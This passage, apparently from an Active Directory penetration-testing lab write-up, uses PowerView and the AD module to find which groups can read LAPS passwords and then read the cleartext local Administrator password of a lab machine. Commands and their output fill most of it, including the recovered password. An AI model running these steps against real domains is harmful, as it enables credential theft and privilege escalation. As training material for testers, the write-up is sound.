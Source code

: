 We also use PowerView for this enumeration.

**PowerView**

```
PS C:\AD\Tools> Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}

AceQualifier           : AccessAllowed
ObjectDN               : OU=MailMgmt 📑,DC=us,DC=techcorp,DC=local
ActiveDirectoryRights  : ReadProperty, ExtendedRight
ObjectAceType          : ms-Mcs-AdmPwd 📌
ObjectSID              :
InheritanceFlags       : ContainerInherit
BinaryLength           : 72
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : InheritOnly
SecurityIdentifier     : S-1-5-21-210670787-2521448726-163245708-1116
AccessMask             : 272
AuditFlags             : None
IsInherited            : False
AceFlags               : ContainerInherit, InheritOnly
InheritedObjectAceType : Computer
OpaqueLength           : 0
IdentityName           : US\studentusers 👥
```

```
PS C:\AD\Tools> (Get-DomainOU -Identity MailMgmt).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name

name
----
US-MAILMGMT 🖥️
```

- Abuse the permissions to get the clear text password(s)

So, the `studentusers` group can read password for LAPS managed Administrator on the `us-mailmgmt` machine.

Let's try it using the Active Directory module, PowerView and LAPS module: let's use `AdmPwd.PS.psd1` PowerShell script for that.

**AD Module**

```
PS C:\AD\Tools> Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd

9};,)J6p2[67[3 🔑
```
